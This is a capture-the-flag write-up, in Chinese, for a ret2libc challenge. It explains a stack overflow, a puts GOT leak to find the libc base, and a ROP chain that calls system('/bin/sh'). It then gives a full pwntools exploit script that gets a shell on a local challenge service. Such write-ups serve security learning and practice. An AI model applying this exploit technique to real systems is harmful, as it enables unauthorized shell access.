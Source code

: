 題目是一個簡單的ret2libc，main函數中存在棧溢出，題目存在system函數，但無/bin/sh字元串，選擇 棧溢出，控制執行流去把rdi設置為puts函數的got表，然後去執行puts函數洩露puts函數的真實位址， 通過LibcSearcher找到和適的libc版本，減去偏移得到libc基地址，執行完成後， 把程式再次返回到主函 數，再次棧溢出，去把rdi佈置為用libc找到的binsh位址，然後執行system函數，但在執行過程中，會遇 到棧對齊，在rop鏈中加一條ret指令即可，成功getshell

exp:

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux', log_level='debug')
# p=process("./pwn")
p=remote("127.0.0.1",9999)
e=ELF("./pwn")
libc=ELF("./libc.so.6")
pop_rdi=0x0000000000400843
vuln=0x4006E1
main=0x04006A8
puts_got=0x600c48
puts_plt=0x400520
payload=b'a'*0x28+p64(pop_rdi)+p64(puts_got)
payload+=p64(puts_plt)+p64(main)
# gdb.attach(p)
p.sendafter('flag\n',payload)

addr=u64(p.recv(6).ljust(0x8,b'\x00'))
print("=========================>",hex(addr))

addr=addr-libc.sym['puts']
print("=========================>",hex(addr))

ret=0x000000000040050e
binsh=addr+next(libc.search(b"/bin/sh\x00"))
system=addr+libc.sym['system']
pop_rax=0x000000000001b500+addr

payload1=b'a'*0x28+p64(pop_rdi)
payload1+=p64(binsh)+p64(ret)
payload1+=p64(system)

p.sendline(payload1)
p.interactive()

```

![1733315477910](img/1733315477910.png)

